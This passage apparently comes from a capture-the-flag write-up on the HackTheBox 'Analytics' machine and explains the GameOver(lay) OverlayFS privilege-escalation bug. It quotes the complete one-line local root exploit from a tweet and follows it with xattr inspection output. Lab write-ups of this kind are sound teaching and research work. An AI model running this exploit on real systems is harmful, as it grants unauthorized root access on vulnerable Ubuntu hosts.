 ```
```

The kernel version is:

```
metalytics@analytics:/$ uname -a
Linux analytics 6.2.0-25-generic #25~22.04.2-Ubuntu SMP PREEMPT_DYNAMIC Wed Jun 28 09:55:23 UTC 2 x86_64 x86_64 x86_64 GNU/Linux

```

### GameOver(lay)

#### Identify Vulnerability

A search for the kernel version with the word “vulnerability” returns a bunch of references to GameOver(lay):

![image-20240313211500311](https://0xdf.gitlab.io/img/image-20240313211500311.png)

This was a very trendy bug in the information security newcycle in late July 2023, just before Analytics was submitted to HTB on 10 August and released on 7 October.

#### Exploit Explanation

Gameover(lay) is a vulnerability in the OverlayFS, which is a mount filesystem for Linux, and common on many distributions. Julia Evans has a [great post](https://jvns.ca/blog/2019/11/18/how-containers-work--overlayfs/) and cartoon on how OverlayFS is used to power things like Docker containers:

![](https://0xdf.gitlab.io/img/overlay.jpeg)

The exploit for Gameover(lay) is surprisingly short, some joking that it “fits in a tweet”:

> Exploit is so easy it fits in a tweet🔥
>
> unshare -rm sh -c "mkdir l u w m && cp /u\*/b\*/p\*3 l/;
>
> setcap cap\_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/\*;" && u/python3 -c 'import os;os.setuid(0);os.system("id")' [https://t.co/qb53rfeh0y](https://t.co/qb53rfeh0y) [pic.twitter.com/O9lcif1Yad](https://t.co/O9lcif1Yad)
>
> — liad eliyahu (@liadeliyahu) [July 28, 2023](https://twitter.com/liadeliyahu/status/1684841527959273472?ref_src=twsrc%5Etfw)

And yet it’s pretty dense. It’s fine to grab an exploit and run it, but it’s better to understand what it’s doing. I’ll break it down in [this video](https://www.youtube.com/watch?v=nlYNuUKiGr0):

In the video I mentioned that the version of Python in `u`, while also having the capability isn’t executed that way. IppSec pointed out to me that the `u` version has different extended attributes, including `trusted.overlay.origin`. That would typically be viewable with `getfattr`, but that isn’t installed on Analytics. It is also visible with Python’s `os` module (and running as root):

```
>>> os.listxattr('l/python3')
['security.capability']
>>> os.listxattr('u/python3')
['security.capability', 'trusted.overlay.origin']

```
